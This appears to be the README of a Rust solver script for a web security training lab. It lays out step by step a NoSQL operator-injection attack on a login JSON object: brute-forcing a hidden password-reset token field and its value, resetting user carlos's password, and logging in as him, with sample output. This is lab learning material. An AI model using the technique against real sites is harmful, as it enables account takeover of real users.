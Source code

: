 # Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
⟪#⟫ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Checking if field number 3 length =  5
⦗4⦘ Checking if field number 3 length =  7
                            ...............
⦗4⦘ Checking if field number 3 length =  13 [ Correct length: 13 ]
⦗5⦘ Checking if the char of field 3 at position 7  =  d (47%): r s t w T  e
⦗5⦘ Checking if the char of field 3 at position 7  =  d (76%): res t wdT ken
                            ...............
⦗5⦘ Checking if the char of field 3 at position 3  =  d (100%): resetPwdToken
⦗6⦘ Checking if the field resetPwdToken length =  7
⦗6⦘ Checking if the field resetPwdToken length =  10
                            ...............
⦗6⦘ Checking if the field resetPwdToken length =  16 [ Correct length: 16 ]
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  d (43%): 8  7  1 6   2 ad
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  d (75%): 8 e7 21 61fc2 ad
                            ...............
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  d (100%): 86e7721561fc20ad
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to hacked.. OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 The lab should be marked now as solved
```
